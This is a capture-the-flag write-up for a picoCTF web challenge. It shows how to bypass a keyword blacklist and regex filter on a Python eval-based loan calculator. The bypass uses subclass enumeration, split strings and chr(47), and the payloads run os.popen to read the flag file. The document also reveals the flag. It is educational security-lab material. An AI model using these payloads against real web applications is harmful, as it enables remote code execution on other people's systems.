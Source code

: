 **Challenge:** 3v@l

**Level:** Medium

**Challenge Author:** Theoneste Byagutangaza

### Description: 
ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?


### Step-by-Step Walkthrough:
Upon opening the webpage, you are greeted by a website with a `Bank-Loan Calculator` and some interactive buttons

1. Analyze the Filters and Blacklists
2. Explored Python Object Chains
3. Enumerated Subclasses
4. Bypassed Blacklists with Dynamic String Construction
5. Executed Commands

#### Investigation
All good web page vulnerability inspections will generally comprise of two things:

1. Using the Web Page Inspector
2. Testing all the interactive elements

Let's open up an inspector panel and look at the source element. We see a hint there in some comments:

```
TODO
------------
Secure python_flask eval execution by 
    1. blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
    2. Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
```

We learn some things:

```
1. The calculator is being run as a python_flask
2. They want to block all the malicious keywords
* os
* eval
* exec
* bind
* connect
* python
* socket
* ls
* cat
* shell
3. The regex also blocks certain blocks, including
* Hex (0x...)
* Unicode (\u....)
* Percent-encoding (%..)
* Dots followed by 1-3 alphanumerics (.[A-Za-z0-9]{1,3})
* Slashes and backslashes (/, \)
* Double dots (..)
```

It's good to test things, just in case. I tested all of the keywords above just on their own and it seems they did block those. However, as we've learned in other challenges, blacklisting is a bad idea as there's always another way to represent things and you might miss something, providing false confidence in your security.

##### Note - Simple Solution
After solving it, I watched some walkthroughs and I definitely made it a lot more complicated! This can be solved pretty directly with the following code. I even had the thought to initially try other functions not blacklisted, but never pursued it. However, the method I used to solve it helped me learn a lot about python classes, which may be useful for later challenges
<details><summary>HINT</summary>
    <pre>
    open(chr(47)+'flag.'+'txt').read()
    </pre>
   </details>

#### Investigation - Testing Injections
Reviewing this [site](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) we can run through some test injections and we quickly see this is not the way to go. 

#### Learning - Python Classes
__class__ is a special attribute in Python that refers to the class of an object. It allows you to access the type (class) of any instance.

Example:
```
x = 5
print(x.__class__)  # Output: <class 'int'>
```

Furthermore, `().__class__` in Python returns the class of an empty tuple object, which is `<class 'tuple'>`. We could use any object here, but we'll use a tuple to access its base classes and their subclasses.

#### Investigation - subclasses

Our first goal will be to get a list of all subclasses. Index into this list to find classes which can import `os` via `__init__.__globals__`, then use commands such as `cat` and `ls` in string form.

Since `os` is blacklisted, but `bracket notation` is not,our goal is to use the following:

`().__class__.__bases__[0].__subclasses__()[<index>].__init__.__globals__`

where `<index>` is the index of our class

* `__class__`: a special attribute in Python that refers to the class (type) of an object. It allows you to access the object's type and its class-level attributes and methods.
* `__bases__`: All new-style classes in Python (which is everything in Python 3) have a `__bases__` attribute that lists their base classes.
* `__subclasses__`: A special method in Python that, when called on a class, returns a list of all classes that directly inherit from it.
* `__init__`: A special method in Python classes, known as the constructor. It is automatically called when a new instance of the class is created, and is used to initialize the object’s attributes.
* `__globals__`:  A special attribute of Python function objects. It is a dictionary containing the global variables that were accessible in the module where the function was defined.

To find our index, let's list all the classes and subclasses with the following:

`().__class__.__bases__[0].__subclasses__()`

This returns a "blank" list, which seems to be sanitized output for security reasons. We know the subclasses exist though! So we still learned something.

We can try to print all the class names into a list:

`[c.__name__ for c in ().__class__.__bases__[0].__subclasses__()]`

But we want the index as well, so let's add that in:

`[(i, c.__name__) for i, c in enumerate((()).__class__.__bases__[0].__subclasses__())]`

#### Investigation - Globals
There! Now that we know we can iterate, let's find a class that includes `__globals__`

`[i for i, c in enumerate((()).__class__.__bases__[0].__subclasses__()) if hasattr(c.__init__, '__globals__')]`

But now we get an error, `ls` is blocked! We aren't using `ls`, so the system must be checking that `ls` exists as any sequence of characters. Here we see that `globals` is the issue. We'll need an alternative method to represent that. Since `globals` is a string, lets just split it:

`[i for i, c in enumerate((()).__class__.__bases__[0].__subclasses__()) if hasattr(c.__init__, '__global'+'s__')]`

and we get a big long list of valid indexes! For simplicity, we'll just use index `80`.

##### Note
not all indexes are equal here, some will be simpler to implement than others. 80 turned out to be fairly straightforward

#### Investigation - Import
Inputting `80` into our index:

`().__class__.__bases__[0].__subclasses__()[80].__init__.__globals__`

But this throws an error for `globals` again, let's use `getattribute()` instead. `__getattribute__` is a special method in Python that is called whenever an attribute of an object is accessed. It allows you to customize or control how attribute access works for instances of a class.

`().__class__.__bases__[0].__subclasses__()[80].__init__.__getattribute__('__global'+'s__')`

now we need the to import `os`, but we currently have a dictionary object. Let's use the `import` function

`().__class__.__bases__[0].__subclasses__()[80].__init__.__getattribute__('__global'+'s__')['__import__']('o'+'s').popen('l'+'s').read()`

Score! We can use our commands again. Let's check out what we have. Remember that `..` is a blacklisted sequence, so we need to split them up when we use them.

Thus we can see that the flag is located one directory above! Now let's use `cat`, split of course. Again, recall that there is regex checking for any sequence with a `.` and `1-3 characters` following. Split up your command appropriately:

`().__class__.__bases__[0].__subclasses__()[80].__init__.__getattribute__('__global'+'s__')['__import__']('o'+'s').popen('ca'+'t '+'/flag'+'.'+'txt').read()`

Ah, of course, the '/' is also blacklisted. This is where we'd want to use `chr`.

#### Learning - chr
`chr` is a built-in Python function that returns the character corresponding to a given Unicode (ASCII) integer value.

Example:
```
chr(65)   # Returns 'A'
chr(97)   # Returns 'a'
chr(47)   # Returns '/'
```
Replace `/` with chr(47) as follows:

`().__class__.__bases__[0].__subclasses__()[80].__init__.__getattribute__('__global'+'s__')['__import__']('o'+'s').popen('ca'+'t '+chr(47)+'flag'+'.'+'txt').read()`

and we have our flag!

<details><summary>Flag</summary>
    <pre>
    picoCTF{D0nt_Use_Unsecure_f@nctions6798a2d8}
    </pre>
   </details>